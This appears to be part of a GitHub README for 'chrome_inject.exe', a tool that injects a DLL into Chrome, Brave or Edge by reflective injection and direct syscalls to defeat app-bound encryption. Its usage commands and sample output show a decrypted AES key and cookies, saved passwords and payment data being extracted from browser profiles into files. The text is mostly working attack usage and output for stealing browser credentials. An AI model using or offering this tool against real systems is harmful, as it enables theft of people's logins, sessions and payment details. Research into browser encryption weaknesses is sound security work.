 ### Examples

```bash
# Standard injection into a running Chrome process:
PS> .\chrome_inject.exe chrome

# Auto-start Brave and show verbose debug logs:
PS> .\chrome_inject.exe --start-browser --verbose brave
```

#### Normal Run

```bash
PS> .\chrome_inject.exe --start-browser chrome
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Direct Syscall Injection Engine             |
|  x64 & ARM64 | Cookies, Passwords, Payments  |
|  v0.12.0 by @xaitax                          |
------------------------------------------------

[*] Chrome not running, launching...
[+] Chrome (v. 138.0.7204.50) launched w/ PID 23372
[+] DLL injected via Reflective DLL Injection (RDI with Syscalls)
[*] Waiting for DLL (Pipe: \\.\pipe\ChromeDecryptIPC_a98ad5d7-dcb6-4db2-a744-05c418297baa)

[*] Decryption process started for Chrome
[+] COM library initialized (APARTMENTTHREADED).
[+] Reading Local State file: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[+] Decrypted AES Key: 97fd6072e90096a6f00dc4cb7d9d6d2a7368122614a99e1cc5aa980fbdba886b
[*] Processing profile: Default
     [*] 9 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\cookies.txt
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\passwords.txt
     [*] 1 payments extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\payments.txt
[*] Processing profile: Profile 1
     [*] 136 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\cookies.txt
[*] Decryption process finished.

[+] DLL signaled completion or pipe interaction ended.
[*] Chrome terminated by injector.
```

#### Verbose

```bash
PS> .\chrome_inject.exe --verbose --start-browser chrome
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Direct Syscall Injection Engine             |
|  x64 & ARM64 | Cookies, Passwords, Payments  |
|  v0.12.0 by @xaitax                          |
------------------------------------------------

[#] [Syscalls] Found and sorted 489 Zw* functions.
[#] [Syscalls] Successfully initialized all syscall stubs via Tartarus Gate.
[#] [Syscalls]   - NtAllocateVirtualMemory found at 140726530544016
[#] Named pipe server created: \\.\pipe\ChromeDecryptIPC_1a7002a9-b8fd-4788-8e21-1a3c95f8cf41
[#] Snapshotting processes for msedge.exe
[#] Found process msedge.exe PID=16772
[#] Architecture match: Injector=ARM64, Target=ARM64
[#] Loading payload DLL from embedded resource.
```